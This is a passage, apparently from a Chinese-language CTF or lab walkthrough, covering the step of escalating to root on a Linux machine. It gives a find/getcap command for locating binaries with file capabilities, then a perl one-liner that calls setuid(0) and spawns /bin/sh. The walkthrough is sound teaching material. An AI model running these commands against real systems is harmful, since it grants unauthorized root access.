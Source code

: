 ## 提权至root

使用`find`再寻找一些信息，发现`capacilities`

```shell
find / -type f -executable 2>/dev/null | xargs getcap -r 2>/dev/null
```

![](./pic-PC/35.jpg)

查看网站后获取用法

![](./pic-PC/36.jpg)

```shell
./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

使用命令，提权成功

![](./pic-PC/37.jpg)
